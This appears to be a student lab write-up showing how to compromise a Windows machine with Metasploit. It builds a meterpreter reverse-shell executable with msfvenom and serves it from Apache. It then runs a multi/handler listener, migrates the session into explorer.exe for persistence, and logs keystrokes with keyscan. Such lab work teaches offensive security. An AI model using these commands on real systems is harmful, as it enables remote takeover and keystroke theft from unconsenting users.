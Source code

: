 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:

![Alt text](img/ifconfig.png)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![Alt text](img/msvenom.png)
![Alt text](img/venom2.png)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Alt text](img/sudocpy.png)
Start apache server
sudo systemctl apache2 start

![Alt text](img/apache2.png)

Invoke msfconsole:
## OUTPUT:
![Alt text](img/msfconsole.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Alt text](img/help.png)
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![Alt text](img/keyscan.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![Alt text](<img/apache server.png>) 
Bypass any warning boxes, double-click the file, and allow it to run.
![Alt text](img/fun.png)
On kali give the command exploit

![Alt text](img/keyscan.png)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![Alt text](img/meterpreter.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Alt text](img/netstat.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Alt text](img/notepad.png)
keyscan_dump	Shows the keystrokes captured so far
![Alt text](img/keyscan.png)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
